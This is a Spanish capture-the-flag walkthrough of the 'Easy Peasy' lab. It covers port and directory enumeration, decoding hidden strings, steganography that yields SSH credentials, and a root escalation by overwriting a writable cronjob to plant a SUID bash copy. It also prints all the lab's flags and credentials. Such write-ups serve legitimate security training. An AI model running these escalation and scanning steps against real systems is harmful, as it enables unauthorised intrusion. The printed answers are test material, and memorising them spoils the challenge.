# Write-up Easy Peasy

## Enumeracion

### Escaneo inicial

Empiezo enumerando puertos, servicios y posibles vectores:

`nmap --script vuln -T4 IP`

`nmap -sC -sV -O -T4 IP`

`nmap -sC -sV -O -T4 -p- IP`

Puertos encontrados:

- 80/tcp HTTP - nginx 1.16.1
- 6498/tcp SSH - OpenSSH
- 65524/tcp HTTP - Apache 2.4.43

Tambien veo dos directorios relevantes:

- `/robots.txt`
- `/hidden/`

Esto me deja dos superficies web que revisar:

- `http://IP:80`
- `http://IP:65524`




### Enumeracion web en el puerto 80

Lanzo `gobuster`:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Encuentro:

- `/robots`
- `/hidden`

Despues profundizo en `/hidden`:

`gobuster dir -u http://IP/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Y aparece:

- `/hidden/whatever`



Al inspeccionar el HTML de `/hidden/whatever/` encuentro un texto oculto:

`ZmxhZ3tmMXJzN19mbDRnfQ==`

Al decodificarlo en base64 obtengo la primera flag:

`flag{f1rs7_fl4g}`



### Enumeracion web en el puerto 65524

Reviso primero `robots.txt`:

`http://IP:65524/robots.txt`

Encuentro esto:

- `User-Agent: a18672860d0510e5ab6699730763b250`
- `Allow: /`



Ese valor parece un hash MD5. Lo compruebo y obtengo:

`flag{1m_s3c0nd_fl4g}`

### Analisis de la web principal en Apache

En `http://IP:65524/` inspecciono el codigo fuente con `Ctrl + U` y veo otro `
` oculto con esta cadena:

`ObsJmP173N2X6dOrAgEAL0Vu`



Al decodificarla como `base62` obtengo un endpoint:

`/n0th1ng3ls3m4tt3r`



Accedo a esa ruta y, al inspeccionarla, encuentro una imagen llamada `binarycodepixabay.jpg` y otra cadena:

`940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`



Tras identificar que el hash es tipo `GOST`, lo descifro y obtengo:

`mypasswordforthatjob`



### Stego en la imagen

Descargo la imagen y pruebo con `steghide`:

`steghide --extract -sf /home/kali/Downloads/binarycode.jpeg`

Cuando pide password introduzco:

`mypasswordforthatjob`



Dentro aparece lo que parece ser:

- Usuario: `boring`
- Una password en binario

Traduciendo ese binario obtengo:

`iconvertedmypasswordtobinary`

Con eso ya tengo credenciales validas:

- Usuario: `boring`
- Password: `iconvertedmypasswordtobinary`

## Explotacion

### Acceso por SSH

Me conecto por SSH al puerto no estandar `6498`:

`ssh boring@IP -p 6498`

Consigo acceso como `boring`.

Al hacer el primer `ls` veo el archivo `user.txt`, que contiene una flag en rot:

`synt{a0jvgf33zfa0ez4y}`

Traducida queda como:

`flag{n0wits33msn0rm4l}`

## Post-explotacion

### Enumeracion local

En vez de ir directo a herramientas grandes, primero reviso cosas rapidas a mano y encuentro un `cronjob` editable.




Eso significa que puedo aprovechar el script `.mysecretcronjob.sh` para ejecutar acciones como `root`.

## Escalado de privilegios

Sobrescribo el script para que copie `/bin/bash` a `/tmp` y le ponga el bit SUID:

`echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /var/www/.mysecretcronjob.sh`

Espero a que el `cron` lo ejecute y despues compruebo si ya existe el binario:

`ls -l /tmp/rootbash`

Debe verse algo como:

`-rwsr-xr-x 1 root root ...`

Cuando aparece, lo ejecuto preservando privilegios:

`/tmp/rootbash -p`

Y ya obtengo shell como `root`.



Root flag:

`flag{63a9f0ea7bb98050796b649e85481845}`

## Resultado

La intrusion sale de varias pistas repartidas entre dos servicios web, una imagen con stego y unas credenciales de SSH. El escalado final es posible por un `cronjob` editable que permite generar una `bash` SUID y entrar como `root`.

## Resumen de comandos hasta root

- `nmap --script vuln -T4 IP`
- `nmap -sC -sV -O -T4 IP`
- `nmap -sC -sV -O -T4 -p- IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `gobuster dir -u http://IP/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `steghide --extract -sf /home/kali/Downloads/binarycode.jpeg`
- `ssh boring@IP -p 6498`
- `echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /var/www/.mysecretcronjob.sh`
- `ls -l /tmp/rootbash`
- `/tmp/rootbash -p`
